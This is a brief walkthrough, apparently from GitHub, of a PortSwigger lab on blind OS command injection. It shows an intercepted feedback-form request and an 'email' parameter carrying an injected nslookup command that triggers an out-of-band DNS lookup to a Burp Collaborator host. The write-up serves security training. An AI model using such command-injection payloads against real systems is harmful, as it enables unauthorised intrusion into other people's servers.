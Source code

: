 ## Welcome, my friend. Today we will start the [4. OS Injection lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) in ```portswigger```


# Let's play this lab:

![image](https://github.com/user-attachments/assets/85fa2213-1c82-40ef-b580-90948800f9f6)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/2c4653d5-78df-44ac-8820-12ef2d513133)

### Well, we found ```submit feedback``` page , Start Burp suite and intercept the request:

![image](https://github.com/user-attachments/assets/383b2092-2e26-49c1-bf90-752aebce52ef)

```
csrf=K8WkfBaagpAd5wD56TjB3usCLvzMYggv&name=mohamed&email=hi%40gmail.com&subject=new&message=hi+mohamed
```

 <br>
 
#### This ```email``` parameter is vulerable.

### inject os command inside this parameter:


```
email=x||nslookup+x.uge1yqe6cj8zn3vupc92e1vbx23trnfc.oastify.com||

```

![image](https://github.com/user-attachments/assets/bfc57d34-a5b3-4697-8229-1c76c1ae3edc)

![image](https://github.com/user-attachments/assets/fc9d7ed4-273a-41a5-8cbe-d88337dd7b97)

![image](https://github.com/user-attachments/assets/0de2cc51-e96f-4eb2-bb4c-fc6c028b8f7b)

-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>










